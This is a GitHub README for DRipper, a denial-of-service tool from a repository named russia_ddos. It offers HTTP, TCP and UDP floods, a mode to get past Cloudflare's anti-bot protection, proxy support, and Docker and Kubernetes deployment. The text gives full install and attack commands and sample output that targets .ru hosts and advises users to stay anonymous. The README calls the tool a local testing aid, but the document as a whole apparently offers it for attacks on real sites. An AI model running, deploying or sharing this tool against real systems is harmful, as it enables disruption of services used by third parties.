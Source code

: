 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
───────────────────────────────────────── Starting DRipper ─────────────────────────────────────────
[23:17:39] (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Trying to connect...      services.py:135
           (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Connected                 services.py:138
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Trying to connect...  services.py:135
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Connected             services.py:138
────────────────────────────────────────────────────────────────────────────────────────────────────


                        ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                        ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                        ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                        ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                        ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                        ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                                    v2.6.1

                  It is the end user's responsibility to obey all applicable laws.
                  It is just like a server testing script and Your IP is visible.
                                Please, make sure you are ANONYMOUS!

                             https://github.com/alexmon1989/russia_ddos


 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-08 23:17:29  (0:00:14)
  Your Country, Public IP                     DK   45.***.***.***
  Total Threads                               200
  vCPU Count                                  8
  Socket Timeout (seconds)                    1
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Target (tcp://www.site1.ru:80/)             1/2 (next in 1)
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  192.168.0.101:80 (target-0)
  Attack Method                               TCP-FLOOD
  Random Packet Length (bytes)                From 1 to 1024
  Threads                                     100
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               ...detecting (TCP method)
  Sent Bytes @ AVG speed                      1.73 MB @ 119.76 kB/s
  Sent Packets @ AVG speed                      3,531 @ 238 packets/s
  Connections                                 success: 100, failed: 0, success rate: 100 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [23:17:40]   info   target-0  thread-14   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-114  Creating new TCP connection...
  [23:17:40]   info   target-0  thread-16   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-20   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-22   Creating new TCP connection...

                                 Press CTRL+C to interrupt process.

                                         #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  --min-random-packet-len=MIN_RANDOM_PACKET_LEN
                                                        Min random packets length. Default: 1 for udp/tcp
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy                                                    
  --dry-run                                             Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.
  -d DURATION_SECONDS, --duration=DURATION_SECONDS      Attack duration in seconds. After this duration script will 
                                                        stop its execution.                                                   

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -m http-flood -s http://127.0.0.1:80 
# or
docker run -it --rm alexmon1989/dripper:latest -t 100 -s http://127.0.0.1:80
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s tcp://127.0.0.1:80 

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s udp://127.0.0.1:80 
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -t 100 -s udp://127.0.0.1:80


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -t 100 -s udp://127.0.0.1:80
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install -r requirements.test.txt
```

#### Run
```bash
pytest

# with code coverage report:
pytest --cov-report=html:./htmlcov
```

## Benchmark

#### Run
```bash
pytest -c pytest.benchmark.ini
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
